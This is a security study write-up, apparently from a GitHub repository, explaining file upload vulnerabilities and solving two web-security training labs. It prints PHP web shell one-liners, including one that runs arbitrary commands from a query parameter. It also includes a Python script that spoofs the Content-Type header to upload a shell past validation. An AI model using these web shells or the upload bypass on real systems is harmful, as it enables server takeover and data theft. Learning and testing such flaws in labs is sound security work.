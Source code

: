 # File Upload Vulnerabilites

File upload vulnerabilites occur when a web server allows users to upload files to the filesystem of the server. If the server does not validate the file for malicious content, like checking file contents, name, type or size, this can be dangerous and potentially allow RCE. It can even be exploited as a DDoS attack uploading huge files relentlessly.

Sometimes the validation is not as robust as the developer thinks and can be bypassed due to parsing errors. Other occurences are seen with blacklists which are not exhaustive (Very hard for them to be).

A particular bad case of file upload vulns, is when an attacker is able to upload serverside scripts (PHP, JS, Java, Python). This can enable the attacker to create a web shell. A web shell is when an attacker is able to execute arbitrary code on the server using HTTP requests.

An example is the PHP one-liner: `<?php echo file_get_contents('/path/to/target/file'); ?>` This will enable the attacker to retrieve the contents on any file of the server. An even better web shell would be executing system commands, like bash commands: `<?php echo system($_GET['command']); ?>`. This would allow for parsing commands as a HTTP query param: `GET /example/exploit.php?command=ls`. As an example, combining both PHP one-liners, an attacker could create a file, save the output of the command to the file, and retrieve the output using the first script.

## Lab: Remote code execution via web shell upload

**Lab Description**:  This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`.

### Lab solution

It is apparent that the web shell described in the last section will be great for this purpose. Creating a php file with the single line: `<?php echo file_get_contents('/path/to/target/file'); ?>` will do the trick. It must be modified to get the file at location `/home/carlos/secret`. Therefore we will need to figure out where the files are saved to and upload our file.

Uploading a file results in the respone `The file avatars/webshell.php has been uploaded.` Using the default value `/home/carlos/secret` seems to actually work. A reqeust to the webserver, which fetchs the users avatar executes the uploaded file (webshell.php). It looks as follows:

```HTTP
https://0a1a00aa03f2172083a4750a00a900a5.web-security-academy.net/files/avatars/webshell.php

Response
OTNAo87z985TJ0HgrXbbAWJUqHcivxPj
```

Submitting this string solves the lab.

The payload looks as follows: `<?php echo file_get_contents('/home/carlos/secret');`

## Flawed File type validation

One thing to look for when assesing file upload functions, is the content of a `POST` request. For large files or binary data the content-type header should be set to `multipart/form-data`.

When sending a `POST` request with `multipart/form-data`, the structure will look like this:

```HTTP
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

The interesting thing to notice here, is the `Content-disposition` field, which is included in each part of the input. The message has a boundary which splits the form into individual parts. Large files may also be split. Therefore each boundary has a `Content-disposition` and may also include a `Content-Type` header. The disposition gives the server information about the data to come. Content type denotes a mime type. Some web applications only check this header for validation of input. As with many other headers, this can be spoofed.

## Lab: Web shell upload via Content-Type restriction bypass

**Lab Description**:   This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`

### Lab Solution

The challenge is very similar to the previous one. This time however, some validation is performed, and we need to find out which. A hint is the mime type validation done in the `Content-Type` header in `multipart/form-data`. We can log in and try to upload a file to verify how the validation is done. When uploading `webshell.php` the server responds with:

```HTTP
403 Forbidden
Sorry, file type application/x-php is not allowed
        Only image/jpeg and image/png are allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Looking closer at the request:

```HTTP
-----------------------------21252443232957699354717010144
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret');
-----------------------------21252443232957699354717010144
Content-Disposition: form-data; name="user"

wiener
-----------------------------21252443232957699354717010144
Content-Disposition: form-data; name="csrf"

emfrefzPxxGo1zU8JwlwnCkzuDsANoCF
-----------------------------21252443232957699354717010144--
```

We see the content type header recognises the file correctly as PHP. We might be able to spoof this. This can be done either by using Burpsuite or writing a script. Of course, we are going to do a script. The script is written in python, and essentially just spoofs the `Content-Type` header in the multipart form:

```python
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

# response = requests.get("https://0a37003503baa74c80c39e2000db0090.web-security-academy.net/my-account?id=wiener")
multipart_data = MultipartEncoder(fields={
    'avatar': ('webshell.php', "<?php echo file_get_contents('/home/carlos/secret');", "image/jpeg"),
    'csrf': "jceEZQqiBaO2Raue8Ma5HIsvJZjbErsk",
    'user': "wiener"
})

headers = {
    "Cookie": "session=ouPQveWk4Td9dZzD7a2AUYq1GGVLzgTE",
    'Content-Type': multipart_data.content_type
}

response = requests.post("https://0a37003503baa74c80c39e2000db0090.web-security-academy.net/my-account/avatar", headers=headers, data=multipart_data)

print(response.text, " - ", response.status_code)
```

The script uses python requests and the MultipartEncoder tool provided by requests toolbelt. We need to include a session cookie and csrf token in the HTTP request. These are obtained from loggin in on the website and obtaining them in the network tab. When the script is run, the following response is received:

```html
The file avatars/webshell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">� Back to My Account</a></p>  -  200
```

This indicates that the upload was succesful. Reloading the account pages proves this, and our PHP script is run. In the network tab the secret can be obtained. Submitting the secret, solves the lab.

